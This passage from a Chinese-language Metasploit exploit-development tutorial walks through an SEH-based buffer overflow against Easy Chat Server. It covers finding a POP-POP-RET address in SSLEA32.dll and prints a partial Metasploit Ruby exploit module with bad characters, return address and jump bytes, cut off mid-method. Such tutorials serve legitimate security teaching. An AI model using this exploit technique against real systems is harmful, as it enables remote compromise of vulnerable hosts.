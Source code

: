 然而，在这个阶段最重要的事情是实际加载到 SEH 块中的内容。这个问题的答案是我们不会用地址覆盖它。相反，我们将在那里放置一条机器指令以跳转字节数。

现在，让我们找到下一个重要的东西，那就是 POP-POP-RETURN 地址。通常，我们正在做的工作和需要执行的工作如下：

1.  使应用程序崩溃，以便生成异常。
2.  使用有效负载的跳转指令覆盖 SEH 字段，以便进行短跳转。
3.  使用指向 POP-POP-RETURN 序列的指针覆盖 SEH 处理程序字段，该序列将帮助它指向有效负载。

现在执行将转到 SEH 指定的地址。那么，让我们找到 POP-POP-RETN 的地址：

![Bypassing SEH](img/2223OS_03_43.jpg)

从可执行模块列表中，我们可以看到我们有三个模块；但是，我们需要选择前导值为`1`的，因为如果我们选择带`00`的值，它将不会被执行，因为它可能被认为是一个坏字符。

在这里，我们将打开`SSLEA32.dll`文件。此外，在打开`SSLEA32.dll`文件后，我们需要找到确切的 POP-POP-RETURN 序列：

![Bypassing SEH](img/2223OS_03_44.jpg)

我们需要记下这个值。到目前为止，我们已经收集了开发所需的所有值。让我们转到 Metasploit 来创建一个漏洞。

## 基于 SEH 的漏洞利用

现在，让我们为该应用程序创建一个漏洞，并了解更多信息：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Easy Chat SEH BOF',
      'Description'    => %q{
          This exploits a SEH based BOF on easy chat server
      },
      'Author'         => [ 'Nipun Jaswal' ],
      'Payload'        =>
        {
          'Space'       => 1024,
          'BadChars'    => "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c",
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [

      'Easy Chat',
            {
              'Ret'    => 0x1002bd33,
              'Length' => 1036
            },
          ]
        ],
      'DefaultTarget'  => 0
))
  end
  def exploit
    print_status("Overwriting SEH")
    jmpaddr = "\xeb\x06\x90\x90"
    ppraddress = "\xa2\xb9\01\x10"
    buffstuff = "\x41" * 216 + jmpaddr + ppraddress + payload.encoded	
```